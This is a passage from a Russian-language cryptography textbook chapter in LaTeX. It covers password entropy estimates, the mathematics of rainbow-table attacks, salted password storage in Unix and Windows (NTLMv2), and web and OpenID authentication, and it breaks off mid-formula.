Стандартный набор символов паролей, которые можно набрать на клавиатуре, используя английские буквы и небуквенные символы, состоит из $D=94$ символов. При длине пароля $L$ символов и предположении равновероятного использования символов энтропия паролей равна
    \[ H = L \log_2 D. \]

Клод Шеннон, исследуя энтропию символов английского текста, изучал вероятность успешного предсказания людьми следующего символа по первым нескольким символам слов или текста. В результате Шеннон получил оценку энтропии первого символа $s_1$ текста порядка $H(s_1) \approx 4{,}6$--$4{,}7$ бит/символ и оценки энтропий последующих символов, постепенно уменьшающиеся до $H(s_9) \approx 1{,}5$ бит/символ для 9-го символа. Энтропия для длинных текстов литературных произведений получила оценку $H(s_\infty) \approx 0{,}4$ бит/символ.

Статистические исследования баз паролей показывают, что наиболее часто используются буквы <<a>>, <<e>>, <<o>>, <<r>> и цифра <<1>>.

NIST использует следующие рекомендации для оценки энтропии паролей\index{энтропия!пароля}, создаваемых людьми.
\begin{enumerate}
    \item Энтропия первого символа $H(s_1) = 4$ бит/символ.
    \item Энтропия со 2-го по 8-й символы $H(s_{i}) = 2$ бит/символ, $2 \leq i \leq 8$.
    \item Энтропия с 9-го по 20-й символы $H(s_{i} = 1{,}5$ бит/символ, $9 \leq i \leq 20$.
    \item Энтропия с 21-го символа $H(s_{i \geq 21}) = 1$ бит/символ.
    \item Проверка композиции на использование символов разных регистров и небуквенных символов добавляет до 6 бит энтропии пароля.
    \item Словарная проверка на слова и часто используемые пароли добавляет до 6 бит энтропии для коротких паролей. Для 20-символьных и более длинных паролей прибавка к энтропии 0 бит.
\end{enumerate}

Для оценки энтропии пароля нужно сложить энтропии символов $H(s_i)$ и сделать дополнительные надбавки, если пароль удовлетворяет тестам на композицию и отсутствие в словаре.

\begin{table}[!ht]
    \centering
    \caption{Оценка NIST предполагаемой энтропии паролей\label{tab:password-entropy}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c||c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{Длина пароля, символы}} & \multicolumn{3}{|c||}{\parbox{6cm}{Энтропия паролей пользователей по критериям NIST}} & \multirow{2}{*}{\parbox{2.5cm}{Энтропия случайных равновероятных паролей}} \\
        \cline{2-4}
        & \parbox{1.5cm}{Без проверок} & \parbox{2cm}{Словарная проверка} & \parbox{2.5cm}{Словарная и композиционная проверка} & \\
        \hline
        4  & 10 & 14 & 16 & 26.3 \\
        6  & 14 & 20 & 23 & 39.5 \\
        8  & 18 & 24 & 30 & 52.7 \\
        10 & 21 & 26 & 32 & 65.9 \\
        12 & 24 & 28 & 34 & 79.0 \\
        16 & 30 & 32 & 38 & 105.4 \\
        20 & 36 & 36 & 42 & 131.7 \\
        24 & 40 & 40 & 46 & 158.0 \\
        30 & 46 & 46 & 52 & 197.2 \\
        40 & 56 & 56 & 62 & 263.4 \\
        \hline
    \end{tabular} }
\end{table}

В таблице~\ref{tab:password-entropy} приведена оценка NIST на величину энтропии пользовательских паролей в зависимости от их длины, и приведено сравнение с энтропией случайных паролей с равномерным распределением символов из набора в $D=94$ символов клавиатуры. Вероятное число попыток для подбора пароля составляет $O(2^H)$. Из таблицы видно, что по критериям NIST энтропия реальных паролей в 2--4 раза меньше энтропии случайных паролей с равномерным распределением символов.

\example
Оценим общее количество существующих паролей. Население Земли -- 7 млрд. Предположим, что всё население использует компьютеры и Интернет, и у каждого человека по 10 паролей. Общее количество существующих паролей -- $7 \cdot 10^{10} \approx 2^{36}$.

Имея доступ к наиболее массовым интернет-сервисам с количеством пользователей десятки и сотни миллионов, в которых пароли часто хранятся в открытом виде из-за необходимости обновления ПО и, в частности, выполнения аутентификации, мы:
\begin{enumerate}
	\item имеем базу паролей, покрывающую существенную часть пользователей; 
	\item можем статистически построить правила генерирования паролей.
\end{enumerate}

Даже если пароль хранится в защищённом виде, то при вводе пароль, как правило, в открытом виде пересылается по Интернету, и все преобразования пароля для аутентификации осуществляет интернет-сервис, а не веб-браузер. Следовательно, интернет-сервис имеет доступ к исходному паролю.
\exampleend

В 2002 г. был подобран ключ для 64-битного блочного шифра RC5 сетью \texttt{distributed.net} персональных компьютеров, выполнявших вычисления в фоновом режиме. Суммарное время вычислений всех компьютеров -- 1757 дней, было проверено 83\% пространства всех ключей. Это означает, что пароли с оценочной энтропией менее 64 бит, то есть \emph{все пароли} до 40 символов по критериям NIST, могут быть подобраны в настоящее время. Конечно, с оговорками на то, что 1) нет ограничений на количество и скорость попыток аутентификаций, 2) алгоритм генерации вероятных паролей эффективен.

Строго говоря, использование даже 40-символьного пароля для аутентификации или в качестве ключа блочного шифрования является небезопасным.


\subsubsection{Число паролей}

Приведём различные оценки числа паролей, создаваемых людьми.

Пароли, создаваемые людьми, основаны на словах или закономерностях естественного языка. В английском языке всего около $1\ 000\ 000 \approx 2^{20}$ слов, включая термины.

%http://www.springerlink.com/content/bh216312577r6w64/fulltext.pdf
%http://www.antimoon.com/forum/2004/4797.htm

Используемые слоги английского языка имеют вид V, CV, VC, CVV, VCC, CVC, CCV, CVCC, CVCCC, CCVCC, CCCVCC, где C -- согласная (consonant), V -- гласная (vowel). 70\% слогов имеют структуру VC или CVC. Общее число слогов $S=8000\ldots12000$. Средняя длина слога -- 3 буквы.

Предполагая равновероятное распределение всех слогов английского языка, для числа паролей из $r$ слогов получим верхнюю оценку
    \[ N_1 = S^r = 2^{13 r} \approx 2^{4.3 L_1}. \]
Средняя длина паролей составит
    \[ L_1 \approx 3 r. \]

Теперь предположим, что пароли могут состоять только из 2--3 буквенных слогов вида CV, VC, CVV, VCC, CVC, CCV с равновероятным распределением символов. Подсчитаем число паролей $N_2$, которые могут быть построены из $r$ таких слогов. В английском алфавите число гласных букв $n_v = 10, согласных n_c = 16, n = n_v + n_c = 26$. Верхняя оценка числа $r$-слоговых паролей:
    \[ N_2 = (n_c n_v + n_v n_c + n_c n_v n_v + n_v n_c n_c + n_c n_v n_c + n_c n_c n_v)^r \approx \]
        \[ \approx \left( n_c n_v(3 n_c + n_v) \right)^r, \]
    \[ N_2 \approx \left( \frac{n^3}{2} \right)^r \approx 2^{13 r} \approx 2^{4.3 L_2}. \]
Средняя длина паролей:
    \[ L_2 = \frac{n_c n_v(2 + 2 + 3 n_v + 3 n_c + 3 n_c + 3 n_c)}{n_c n_v (1 + 1 + n_v + n_c + n_c + n_c)} \cdot r \approx 3 r. \]

Как видно, получились одинаковые оценки числа и длины паролей.

Подсчитаем верхние оценки числа паролей из $L$ символов, предполагая равномерное распределение символов из алфавита мощностью $D$ символов: a) $D_1 = 26$ строчных букв, б) все $D_2 = 94$ печатных символа клавиатуры (латиница и небуквенные символы):
    \[ N_3 = D_1^L \approx 2^{4.7 L}, \]
    \[ N_4 = D_2^L \approx 2^{6.6 L}. \]

\begin{table}[!ht]
    \centering
    \caption{Различные верхние оценки числа паролей\label{tab:password-number}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{Длина пароля}} & \multicolumn{3}{|c|}{Число паролей} \\
        \cline{2-4}
            & \parbox{3cm}{На основе слоговой композиции} &
            \parbox{3cm}{Алфавит $D=26$ символов} &
            \parbox{3cm}{Алфавит $D=94$ символа} \\
        \hline \hline
        6  & $2^{26}$ & $2^{28}$ & $2^{39}$ \\
        9  & $2^{39}$ & $2^{42}$ & $2^{59}$ \\
        12 & $2^{52}$ & $2^{56}$ & $2^{79}$ \\
        15 & $2^{65}$ & $2^{71}$ & $2^{98}$ \\
        \hline
        21 & $2^{91}$ & $2^{99}$ & $2^{137}$ \\
        \hline
        39 & $2^{169}$ & $2^{183}$ & $2^{256}$ \\
        \hline
    \end{tabular} }
\end{table}

Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60 \ldots 70}$ операций, пароли вплоть до 15 символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшом изменении регистров и других простейших модификациях, могут быть найдены перебором на кластере (или ПК) в настоящее время.

Для достижения криптостойкости паролей, сравнимой со 128- или 256-битовым секретным ключом, требуется выбирать пароль из 20 и 40 символов соответственно, что, как правило, не реализуется из-за сложности запоминания и ввода без ошибок.


%Подсчитаем число паролей $N_1$, которые могут могут построены из $r$ ~ 2-3 буквенных слогов: $cv, vc, ccv, cvc, vcc$, где $c$ -- согласная, $v$ -- гласная. В английском алфавите $n_v = 10, n_c = 16, n = n_v + n_c = 26$. Число паролей
%    \[ N_1 = \left( n_v n_c (1 + 1 + n_c + n_c + n_c) \right)^r \approx 3^r n_v^r n_c^{2r}. \]
%Средняя длина паролей
%    \[ L = r \left( \frac{2 + 2 + 3 n_c + 3 n_c + 3 n_c}{1 + 1 + n_c + n_c + n_c} \right) \approx 3r. \]
%
%%Учтем, что $b \leq r$ символов могут быть заглавными: $N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{n}{n_v} \right)^b$. Вставим $d$ цифр в случайные места: $N_2 \rightarrow N_3 = N_2 (10 (1 + L))^d \approx N_2 (10 L)^d$.
%%
%%Общее число паролей
%%    \[ N = N_3 = 3^r 10^r 16^{2r} \binom{3r}{b} 2.6^b \left(10 \cdot 3 r \right)^d. \]
%%
%%\begin{table}[!ht]
%%    \centering
%%    \small
%%    \begin{tabular}{|c|c|c|c|c||cr|}
%%        \hline
%%        \parbox{1.3cm}{Слогов, $r$} & \parbox{1.8cm}{Заглавных букв, $b$} & \parbox{1.5cm}{Вставок цифр, $d$} & \parbox{2.8cm}{Средняя длина пароля, $L+d$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей}} \\
%%        \hline
%%        $2$ & $0$ & $0$ & $6$ & $2^{26}$ & $2^{36}$ & a-z \\
%%        $2$ & $2$ & $0$ & $6$ & $2^{32}$ & $2^{48}$ & A-Z, a-z \\
%%        $2$ & $2$ & $2$ & $8$ & $2^{45}$ & $2^{48}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $3$ & $0$ & $0$ & $9$ & $2^{39}$ & $2^{54}$ & a-z \\
%%        $3$ & $3$ & $0$ & $9$ & $2^{49}$ & $2^{54}$ & A-Z, a-z \\
%%        $3$ & $3$ & $2$ & $11$ & $2^{63}$ & $2^{65}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $4$ & $0$ & $0$ & $12$ & $2^{52}$ & $2^{93}$ & a-z \\
%%        $4$ & $3$ & $0$ & $12$ & $2^{64}$ & $2^{186}$ & A-Z, a-z \\
%%        $4$ & $3$ & $2$ & $14$ & $2^{78}$ & $2^{222}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%    \end{tabular}
%%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей.}
%%    \label{tab:password-number}
%%\end{table}
%
%Учтем, что $b$ символов в пароле могут быть взяты не из 26-символьного алфавита строчных букв, а из всего алфавита в $D=94$ печатных символа клавиатуры (латиница и небуквенные символы):
%\[
%    \begin{array}{ll}
%    b=1 & N_1 \rightarrow N_2 = \frac{n_v}{n_v+n_c} 3^r n_v^{r-1} n_c^{2r} \cdot L. \]
%
%    \[ N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{D}{n_v} \right)^b. \]
%
%
%
%Общее число паролей
%    \[ N < 3^r n_v^r n_c^{2r} \binom{L}{b} \left( \frac{D}{n_v} \right)^b = 3^r 10^r 16^{2r} \binom{3r}{b} \left( \frac{94}{10} \right)^b. \]
%
%\begin{table}[!ht]
%    \centering
%    \small
%    \begin{tabular}{|c|c|c|c||cr|}
%        \hline
%        \parbox{1.5cm}{Слогов, $r$} & \parbox{3cm}{Средняя длина пароля, $L$} & \parbox{3cm}{Символов из всего алфавита, $b$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей, $D^L$}} \\
%        \hline
%        \multirow{3}{*}{2} & \multirow{3}{*}{6} & $0$ & $2^{26}$ & $2^{28}$ & a-z \\
%        & & $1$ & $2^{32}$ & $2^{34}$ & A-Z, a-z \\
%        & & $3$ & $2^{40}$ & $2^{39}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{3} & \multirow{3}{*}{9} & $0$ & $2^{39}$ & $2^{42}$ & a-z \\
%        & & $2$ & $2^{50}$ & $2^{51}$ & A-Z, a-z \\
%        & & $4$ & $2^{59}$ & $2^{59}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{4} & \multirow{3}{*}{12} & $0$ & $2^{52}$ & $2^{56}$ & a-z \\
%        & & $3$ & $2^{69}$ & $2^{68}$ & A-Z, a-z \\
%        & & $6$ & $2^{81}$ & $2^{77}$ & Весь алфавит \\
%        \hline
%    \end{tabular}
%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей в алфавите из $D$ символов.}
%    \label{tab:password-number}
%\end{table}
%
%Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60 \ldots 70}$ операций, пароли вплоть до 12 символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшого изменения регистров и другой простейшей обфускации, могут быть найдены перебором на кластере (или ПК) в настоящее время.


\subsubsection{Атака для подбора паролей и ключей шифрования}

В схемах аутентификации по паролю иногда используется хэширование и хранение хэша пароля на сервере. В таких случаях применима словарная атака или атака с применением заранее вычисленных таблиц для ускорения поиска.

Для нахождения пароля, прообраза хэш-функции, или для нахождения ключа блочного шифрования по атаке с выбранным шифротекстом (для одного и того же известного открытого текста и соответствующего шифротекста) может быть применён метод перебора с балансом между памятью и временем вычислений. Самый быстрый метод радужных таблиц\index{радужные таблицы} (\langen{rainbow tables}, 2003~г., \cite{Oechslin:2003}) заранее вычисляет следующие цепочки и хранит результат в памяти.

Для нахождения пароля, прообраза хэш-функции $H$, цепочка строится как
    \[ M_0 \xrightarrow{H(M_0)} h_0 \xrightarrow{R_0(h_0)} M_1 \ldots M_t \xrightarrow{H(M_t)} h_t \xrightarrow{R_t(h_t)} M_{t+1}, \]
где $R_i(h)$ -- функция редуцирования, преобразования хэша в пароль для следующего хэширования.

Для нахождения ключа блочного шифрования для одного и того же известного открытого текста $M$ таблица строится как
    \[ K_0 \xrightarrow{E_{K_0}(M)} c_0 \xrightarrow{R_0(c_0)} K_1 \ldots K_t \xrightarrow{E_{K_t}(M)} c_t \xrightarrow{R_t(c_t)} K_{t+1}, \]
где $R_i(c)$ -- функция редуцирования, преобразования шифротекста в новый ключ.

Функция редуцирования $R_i$ зависит от номера итерации, чтобы избежать дублирующихся подцепочек, которые возникают в случае коллизий между значениями в разных цепочках в разных итерациях, если $R$ постоянна. Rainbow-таблица размера $(m \times 2)$ состоит из строк $(M_{0,j}, M_{t+1,j})$ или $(K_{0,j}, K_{t+1,j})$, вычисленных для разных значений стартовых паролей $M_{0,j}$ или $K_{0,j}$ соответственно.

Опишем атаку на примере нахождения прообраза $\overline{M}$ хэша $\overline{h} = H(\overline{M})$. На первой итерации исходный хэш $\overline{h}$ редуцируется в сообщение $\overline{h} \xrightarrow{R_t(\overline{h})} \overline{M}_{t+1} $ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если нет совпадения, переходим ко второй итерации. Хэш $\overline{h}$ дважды редуцируется в сообщение $\overline{h} \xrightarrow{R_{t-1}(\overline{h})} \overline{M}_t \xrightarrow{H(\overline{M}_t)} \overline{h}_t \xrightarrow{R_t(\overline{h}_t)} \overline{M}_{t+1}$ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если не совпало, то переходим к третьей итерации и~т.\,д. Если для $r$-кратного редуцирования сообщение $\overline{M}_{t+1}$ содержится в таблице во втором столбце, то из совпавшей строки берётся $M_{0,j}$, и вся цепочка пробегается заново для поиска искомого сообщения $\overline{M}: ~ \overline{h} = H(\overline{M})$.

Найдём вероятность нахождения пароля в таблице. Пусть мощность множества всех паролей $N$. Изначально в столбце $M_{0,j}$ содержится $m_0 = m$ различных паролей. Предполагая наличие случайного отображения с пересечениями паролей $M_{0,j} \rightarrow M_{1,j}$, в $M_{1,j}$ будет $m_1$ различных паролей. Согласно задаче о размещении,
\[
    m_{i+1} = N \left( 1 - \left( 1 - \frac{1}{N} \right)^{m_i} \right) \approx N \left( 1 - e^{-\frac{m_i}{N}} \right).
\]
Вероятность нахождения пароля
\[
    P = 1 - \prod \limits_{i=1}^t \left( 1 - \frac{m_i}{N} \right).
\]

Чем больше таблица из $m$ строк, тем больше шансов найти пароль или ключ, выполнив в наихудшем случае   $O \left( m \frac{t(t+1)}{2} \right)$ операций.

Примеры применения атаки на хэш-функциях $\textrm{MD5}$\index{хэш-функция!MD5}, $\textrm{LM} \sim \textrm{DES}_{\textrm{Password}} (\textrm{const})$ приведены в таблице~\ref{tab:rainbow-tables}.

\begin{table}[!ht]
    \centering
    \caption{Атаки на радужных таблицах на \emph{одном} ПК\label{tab:rainbow-tables}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c|c|c|c|c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.0cm}{Длина, биты}} & \multicolumn{3}{|c|}{Пароль или ключ} &
            \multicolumn{3}{|c|}{Радужная таблица} \\
        \cline{2-7}
        & \parbox{1.2cm}{Длина, симв.} & \parbox{1cm}{Множе- ство} & \parbox{1cm}{Мощ- ность} &
            объём & \parbox{1.5cm}{Время вычисления таблиц} & \parbox{1.3cm}{Время поиска} \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш LM} \\
        \hline
        \multirow{3}{*}{$2 \times 56$} & \multirow{3}{*}{14} &
            A--Z & $2^{33}$ & 610 MB &  & 6 с \\
        & & A--Z, 0-9 & $2^{36}$ & 3 GB &  & 15 с \\
        & & все & $2^{43}$ & 64 GB & \parbox{1.5cm}{несколько лет} & 7 мин \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш MD5} \\
        \hline
        128 & 8 & A-Z, 0-9 & $2^{41}$ & 36 GiB & - & 4 мин \\
        \hline
    \end{tabular} }
\end{table}


\section{Аутентификация по паролю}

Из-за малой энтропии пользовательских паролей во всех системах регистрации и аутентификации пользователей применяется специальная политика безопасности. Типичные минимальные требования:
\begin{enumerate}
    \item Длина пароля от 8 символов. Использование разных регистров и небуквенных символов в паролях. Запрет паролей из словаря или часто используемых паролей. Запрет паролей в виде дат, номеров машин и других номеров.
    \item Ограниченное время действия пароля. Обязательная смена пароля по истечении срока действия.
    \item Блокирование возможности аутентификации после нескольких неудачных попыток. Ограниченное число актов аутентификаций в единицу времени. Временная задержка перед выдачей результата аутентификации.
\end{enumerate}

Дополнительные рекомендации (требования) пользователям:
\begin{enumerate}
    \item Не использовать одинаковые или похожие пароли для разных систем, таких как электронная почта, вход в ОС, электронная платёжная система, форумы, социальные сети. Пароль часто передаётся в открытом виде по сети. Пароль доступен администратору системы, возможны утечки конфиденциальной информации с серверов. Поэтому следует стараться выбирать случайные стойкие пароли.
    \item Не записывать пароли. Никому не сообщать пароль, даже администратору. Не передавать пароли по почте, телефону, Интернету и~т.\,д.
    \item Не использовать одну и ту же учётную запись для разных пользователей, даже в виде исключения.
    \item Всегда блокировать компьютер, когда пользователь отлучается от него, даже на короткое время.
\end{enumerate}

\section[Пароли и аутентификация в ОС]{Хранение паролей и \protect\\ аутентификация в ОС}
\selectlanguage{russian}

Для усложнения подбора пароля и избежания словарной атаки перед процедурой хэширования используется <<соль>>. \emph{<<Солью>>} (salt)\index{соль} называется (псевдо)случайная битовая строка $s$, добавляемая к аргументу $m$ (паролю) функции хэширования $h(m)$ для рандомизации хэширования одинаковых сообщений.

<<Соль>> применяется для избежания словарных атак. \emph{Словарная} атака заключается в том, что злоумышленник один раз заранее вычисляет таблицы хэшей от наиболее \emph{вероятных} сообщений, то есть составляет словарь пароль-хэш, и далее производит поиск по вычисленной таблице для взламывания исходного сообщения. Ранее словарные атаки использовались для взлома паролей $m$, которые хранились в виде обычных хэшей $h(m)$. Усовершенствованной словарной атакой является метод радужных таблиц, позволяющий практически взламывать хэши длиной до 64--128 бит. Использование <<соли>> делает невозможной словарную атаку, так как значение функции вычисляется уже не от оригинального пароля, а от конкатенации <<соли>> и пароля.

<<Соль>> может храниться как отдельное значение, единственное и уникальное для системы целиком, так и быть уникальной для каждого сохранённого пароля и храниться со значением функции хэширования:
\begin{itemize}
	\item $s ~\|~ h(s ~\|~ m)$;
	\item $s ~\|~ h(m ~\|~ s)$;
	\item $s_1 ~\|~ h(m ~\|~ s_1 ~\|~ s_2)$.
\end{itemize}

В первом случае функция хэширования вычисляется от конкатенации (склеивания) <<соли>> и пароля пользователя. Во втором случае в строке сначала идёт пароль, а потом -- <<соль>>. Это позволяет немного усложнить задачу злоумышленнику при переборе паролей (он не сможет сократить время вычисления значения функции хэширования за счёт одинакового префикса у всех аргументов функции хэширования). В третьем случае используется сразу две <<соли>> -- одна хранится вместе с паролем, а вторая выступает внешним параметром, хранящимся отдельно от базы данных паролей.

В рассмотренной ранее модели построения паролей в виде слогов с элементами небольшой модификации мы получили количество паролей около $2^{70}$ для 12-символьных паролей. Данный объём вычислений уже почти достижим. Следовательно, даже <<соль>> не защищает пароли от взлома, если у злоумышленника есть доступ к файлу с паролями или возможность неограниченных попыток аутентификации. Поэтому файлы с паролями дополнительно защищаются, а в системы аутентификации по паролю вводят ограничения на попытки неуспешной аутентификации.

\subsection[Unix]{Хранение паролей в Unix}

В ОС Unix пароль $m$ пользователя хранится в файле \texttt{/etc/shadow} в виде хэша (SHA, MD5 и~т.~д.) или результата шифрования (DES, Blowfish и~т.~д.), вычисленного с <<солью>> $s$ длиной от 2 (для функции crypt в оригинальной ОС UNIX) до 16-ти (для Blowfish в OpenBSD) ASCII-символов. То, как используется <<соль>>, зависит от используемого алгоритма. Например, в традиционном алгоритме, используемом в оригинальном UNIX, <<соль>> модифицирует s-блоки и p-блоки в протоколе DES.

Файл \texttt{/etc/shadow} доступен только привилегированным процессам, что вносит дополнительную защиту.


\subsection[Windows]{Хранение паролей и аутентификация в \protect\\ Windows}

%[MS-NLMP]: NT LAN Manager (NTLM) Authentication Protocol Specification -- 09/25/2009, Rev. 11.0
%http://blogs.technet.com/authentication/archive/2006/04/07/ntlm-s-time-has-passed.aspx
%http://technet.microsoft.com/en-us/library/cc755284(WS.10).aspx -- Windows Authentication, Updated: February 7, 2008
%http://207.46.16.252/en-us/magazine/2006.08.securitywatch.aspx - The Most Misunderstood Windows Security Setting of All Time, Jesper Johansson
%http://en.wikipedia.org/wiki/NTLM
%http://www.windowsnetworking.com/nt/atips/atips92.shtml

ОС Windows, начиная с Vista, Server 2008, Windows 7, сохраняет пароли в виде NT-хэша, который вычисляется как 128-битовый хэш MD4 от пароля в Unicode кодировке. NT-хэш не использует <<соль>>, поэтому применима словарная атака. На словарной атаке основаны программы поиска (взлома) паролей для Windows. Файл паролей называется SAM (\langen{Security Account Manager}) в случае локальной аутентификации. Если пароли хранятся на сетевом сервере, то они хранятся в специальном файле, доступ к которому ограничен.

В последнем протоколе аутентификации NTLMv2\index{протокол!NTLM}\index{протокол!NTLMv2}~\cite{MS-NLMP} пользователь для входа в свой компьютер аутентифицируется либо локально на компьютере, либо удалённым сервером, если учётная запись пользователя хранится на сервере. Пользователь с именем $user$ вводит пароль в программу-\emph{клиент}, которая, взаимодействуя с программой-\emph{сервером} (локальной или удалённой на сервере домена $domain$), аутентифицирует пользователя для входа в систему.
\begin{enumerate}
    \item Клиент $\rightarrow$ Сервер: запрос аутентификации.
    \item Клиент $\leftarrow$ Сервер: 64-битовая псевдослучайная одноразовая метка $n_s$.
    \item Вводимый пользователем пароль хэшируется в $\textrm{NThash}$ без <<соли>>. Клиент генерирует 64-битовую псевдослучайную одноразовую метку $n_c$, создаёт метку времени $ts$. Далее вычисляются 128-битовые имитовставки\index{имитовставка} $\HMAC$ на хэш-функции MD5 с ключами $\textrm{NT-hash}$ и $\textrm{NTOWF}$:
        \[ \textrm{NThash} = \text{MD4}(\text{Unicode}(\text{пароль})), \]
        \[ \textrm{NTOWF} = \textrm{HMAC-MD5}_{\textrm{NThash}}(user, domain), \]
        %\[ \text{LMv2-response} = \text{HMAC-MD5}_{\text{NTLMv2-hash}}(n_c, n_s), \]
        \[ \textrm{NTLMv2-response} = \textrm{HMAC-MD5}_{\textrm{NTOWF}}(n_c, n_s, ts, domain). \]
    \item Клиент $\rightarrow$ Сервер: $(n_c, \textrm{NTLMv2-response})$. %LMv2-response,
    \item Сервер для указанных имён пользователя и домена извлекает из базы паролей требуемый NT-hash, производит аналогичные вычисления и сравнивает значения имитовставок. Если они совпадают, аутентификация успешна.
\end{enumerate}

В случае аутентификации на локальном компьютере сравниваются значения $\textrm{NTOWF}$: вычисленные от пароля пользователя и извлечённые из файла паролей SAM.

Как видно, протокол аутентификации NTLMv2 обеспечивает одностороннюю аутентификацию пользователя серверу (или своему ПК).

При удалённой аутентификации по сети последние версии Windows используют протокол Kerberos, который обеспечивает взаимную аутентификацию, и, только если аутентификация по Kerberos не поддерживается клиентом или сервером, она происходит по NTLMv2.


\section{Аутентификация в веб-сервисах}
\selectlanguage{russian}

Протокол HTTP\index{протокол!HTTP} (вместе с HTTPS\index{протокол!HTTPS}) является в настоящий момент наиболее популярным протоколом, использующимся в сети Интернет для доступа к сервисам, таким как социальные сети или веб-клиенты электронной почты. Данный протокол является протоколом запрос-ответ\index{протокол!запрос-ответ}, причём для каждого запроса открывается новое соединение с сервером\footnote{Для версии протокола HTTP/1.0 существует неофициальное~\cite[p.~17]{Totty:2002} расширение в виде заголовка \texttt{Connection: Keep-Alive}, который позволяет использовать одно соединение для нескольких запросов. Версия протокола HTTP/1.1 по умолчанию~\cite[6.3.~Persistence]{rfc7230} устанавливает поддержку выполнения нескольких запросов в рамках одного соединения. Однако все запросы всё равно выполняются независимо друг от друга.}. То есть протокол HTTP не является сессионным протоколом\index{протокол!сессионный}. В связи с этим задачу аутентификации на веб-сервисах можно различить на задачи первичной и вторичной аутентификации. \textit{Первичной аутентификацией}\index{аутентификация!первичная} будем называть механизм обычной аутентификации пользователя в рамках некоторого HTTP-запроса, а \textit{вторичной}\index{аутентификация!вторичная} (или \textit{повторной}\index{аутентификация!повторная}) -- некоторый механизм подтверждения в рамках последующих HTTP-запросов, что пользователь уже был \textit{ранее} аутентифицирован веб-сервисом в рамках первичной аутентификации.

Аутентификация в веб-сервисах также бывает \textit{односторонней}\index{аутентификация!односторонняя} (как со стороны клиента, так и со стороны сервиса) и \textit{взаимной}\index{аутентификация!взаимная}. Под аутентификацией веб-сервиса обычно понимается возможность сервиса доказать клиенту, что он является именно тем веб-сервисом, к которому хочет получить доступ пользователь, а не его мошеннической подменой, созданной злоумышленниками. Для аутентификации веб-сервисов используется механизм сертификатов открытых ключей\index{сертификат открытого ключа} протокола HTTPS\index{протокол!HTTPS} с использованием инфраструктуры открытых ключей\index{инфраструктура открытых ключей} (см. раздел~\ref{chapter-public-key-infrastructure}).

При использовании протокола HTTPS\index{протокол!HTTPS} и наличии соответствующей поддержки со стороны веб-сервиса клиент также имеет возможность аутентифицировать себя с помощью своего сертификата открытого ключа\index{сертификат открытого ключа}. Данный механизм редко используется в публичных веб-сервисах, так как требует от клиента иметь на устройстве, с которого осуществляется доступ, файл сертификата открытого ключа.

\subsection{Первичная аутентификация по паролю}

Стандартная первичная аутентификация в современных веб-сервисах происходит обычной передачей логина и пароля в открытом виде по сети. Если SSL-соединение не используется, логин и пароль могут быть перехвачены. Даже при использовании SSL-соединения веб-приложение имеет доступ к паролю в открытом виде.

Более защищённым, но мало используемым способом аутентификации является вычисление хэша от пароля $m$, соли $s$ и псевдослучайных одноразовых меток $n_1, n_2$ с помощью JavaScript в браузере и отсылка по сети только результата вычисления хэша.
\[ \begin{array}{ll}
    \text{Браузер} ~\rightarrow~ \text{Сервис:} & \text{HTTP GET-запрос} \\
    \text{Браузер} ~\leftarrow~ \text{Сервис:}  & s ~\|~ n_1 \\
    \text{Браузер} ~\rightarrow~ \text{Сервис:} & n_2 ~\|~ h( h(s ~\|~ m) ~\|~ n_1 ~\|~ n_2) \\
\end{array} \]

Если веб-приложение хранит хэш от пароля и соли $h(s ~\|~ m)$, то пароль не может быть перехвачен ни по сети, ни веб-приложением.

В массовых интернет-сервисах пароли часто хранятся в открытом виде на сервере, что не является хорошей практикой для обеспечения защиты персональных данных пользователей.

\subsection{Первичная аутентификация в OpenID}
\selectlanguage{russian}

Из-за большого числа различных логинов, которые приходится использовать для доступа к разным сервисам, постепенно происходит внедрение единых систем аутентификации для разных сервисов (single sign-on), например OpenID. Одновременно происходит концентрация пользователей вокруг больших порталов с единой аутентификацией, например Google Account. Яндекс.Паспорт также уменьшает число используемых паролей для разных служб.

Принцип аутентификации состоит в следующем:
\begin{enumerate}
    \item Пользователи и интернет-сервисы доверяют аутентификацию третьей стороне -- центру единой аутентификации;
    \item Когда пользователь заходит на интернет-ресурс, веб-приложение перенаправляет его на центр аутентификации с защитой TLS-соединением;
    \item Центр аутентифицирует пользователя и выдаёт ему токен аутентификации, который пользователь предъявляет интернет-сервису;
    \item Сервис по токену аутентификации определяет имя пользователя.
\end{enumerate}

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/openid}
	\caption{Схема аутентификации в OpenID\label{fig:openid}}
\end{figure}

На рис.~\ref{fig:openid} показана схема аутентификации в OpenID версии 2 для доступа к стороннему интернет-сервису.

Если сервис и центр вместе создают общий секретный ключ $K$ для имитовставки\index{имитовставка} $\MAC_K$, выполняются шаги 4, 5 по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана}:
\[ \begin{array}{l}
    \text{4. Сервис} ~\rightarrow~ \text{центр: модуль}~ p ~\text{группы}~ \Z_p^*, ~\text{генератор}~ g, \\
